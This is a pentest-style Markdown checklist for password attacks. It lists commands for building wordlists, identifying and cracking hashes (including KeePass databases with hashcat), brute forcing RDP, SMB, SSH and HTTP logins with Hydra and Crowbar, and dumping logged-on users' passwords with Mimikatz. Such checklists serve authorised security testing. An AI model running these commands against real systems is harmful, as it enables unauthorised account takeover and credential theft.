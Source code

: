 # Password Attacks Checklist
<!--- Status 90% --->
<!---Mimikatz how to --->

## Introduction

This runbook provides a guide to help with password attacks. It includes a variety of techniques and tools for trying to generate word list, crack passwords, and dumping passwords or hashes from the operating system.

## Table of Contents

- [Password Attacks Checklist](#password-attacks-checklist)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [Generate World list](#generate-world-list)
    - [Rules](#rules)
  - [Cracking Password](#cracking-password)
    - [Identifying Hash Type](#identifying-hash-type)
    - [Hashing different file types for cracking with 2john](#hashing-different-file-types-for-cracking-with-2john)
  - [Brute Force Attacks](#brute-force-attacks)
    - [Password Manager](#password-manager)
    - [Hydra](#hydra)
    - [RDP - Crowbar](#rdp---crowbar)
    - [SMB - Hydra](#smb---hydra)
    - [SSH - Hydra](#ssh---hydra)
    - [HTTP POST Login Form - Hydra](#http-post-login-form---hydra)
    - [HTTP GET Login Form - Hydra](#http-get-login-form---hydra)
  - [Password Dumps](#password-dumps)
    - [Mimikatz usage](#mimikatz-usage)

## Generate World list

Generating wordlist based on information from a website
```
cewl <domain> -w wordlist.txt
```

Using Crunch:
`@ = Lower case alpha characters`  
`, = Upper case alpha characters`  
`% = Numeric characters`  
`^ = Special characters including space`

crunch min-len max-len charset
```
crunch 4 6 0123456789abcdef -o wordlist.txt
```

### Rules

Add the rules you want in the /etc/john/john.conf file inside the rules module [List.Rules:Wordlist] to modify your wordlists  
basic rule example `$@$[1-2]$[0-9]$[0-9]$[0-9]`
```
john --wordlist=wordlist.txt --rules --stdout > mutated.txt
```

## Cracking Password

### Identifying Hash Type

```sh
hashid <hash>
```

### Hashing different file types for cracking with 2john

- [ssh2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/ssh2john.c)  
- [rar2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/rar2john.c)  
- [zip2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c)  
- [keepass2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keepass2john.c)  
- [office2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/office2john.c)  
- [pdf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pdf2john.c)  
- [pwsafe2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pwsafe2john.c)  
- [racf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/racf2john.c)  
- [vncpcap2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/vncpcap2john.cpp)  
- [hccap2jjohn](https://github.com/piyushcse29/john-the-ripper/blob/master/src/hccap2john.c)  
- [keychain2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keychain2john.c)  
- [mozilla2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/mozilla2john.c) 

## Brute Force Attacks

### Password Manager

  Search KeePass database files
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

  Hashing the .kdbx file
```
keepass2john Database.kdbx > keepass.hash   
```

  Finding Hash-Mode ID of hashcat
```
hashcat --help | grep -i "KeePass"
```

  Cracking
```
hashcat -m 13400 keepass.hash
```

### Hydra

```
hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>
```

### RDP - Crowbar

```
crowbar -b rdp -s X.X.X.X/32 -u admin -C /usr/share/wordlists/rockyou.txt -n 1
```

### SMB - Hydra

```
hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb
```

### SSH - Hydra

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

### HTTP POST Login Form - Hydra

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f
```

### HTTP GET Login Form - Hydra

```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login
```

## Password Dumps

Active Directory Enumeration also has a complete guide, but these are some basics. 
Dump the same
Also look at linux password dumps

### Mimikatz usage

Display logged on users passowrds
```
sekurlsa::logonpasswords
```

 <!--- Last Updated July 8, 2024 But still needs work --->